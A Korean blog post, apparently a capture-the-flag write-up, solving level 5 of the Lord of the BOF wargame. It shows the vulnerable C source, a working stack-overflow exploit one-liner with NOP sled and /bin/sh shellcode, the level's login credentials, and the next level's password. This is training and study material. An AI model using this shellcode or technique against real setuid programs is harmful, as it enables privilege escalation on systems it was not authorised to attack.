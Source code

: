 ```yaml
---
layout: post
title: "[Wargame] 해커스쿨 BoF LEVEL5 (orc -> wolfman) : egghunter + bufferhunter"
date: 2015-11-06 23:50
comments: true
categories:  wargame
tags: [bof]
---
```


- id = orc 
- pw = cantata

<!-- more -->

사실 이번 문제는 이전 Stage#4와 차이점은 buffer 앞의 40bytes 에 0 으로 초기화.
이전 문제를 운이 좋게도 buffer 앞에 NOP 를 넣고 `LR` 뒤에 shellcode 를 넣도록 구성을 하여 이번 문제는 그대로 풀린다. ㅋㅋ

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - wolfman
        - egghunter + buffer hunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
}
```

## Exploit

```bash
[NOP 44bytes][LR][NOP 20bytes][ShellCode]

./wolfman `python -c 'print "\x90"*44 + "\x94\xfc\xff\xbf" + "\x90" * 20 + "\xeb\x18\x5e\x31\xc0\x88\x46\x07\x89\x76\x08\x89\x46\x0c\xb0\x0b\x8d\x1e\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"'`
```

## Next stage

```bash
bash$ id °
uid=504(orc) gid=504(orc) euid=505(wolfman) egid=505(wolfman) groups=504(orc)

bash$ my-pass
euid = 505
love eyuna 
```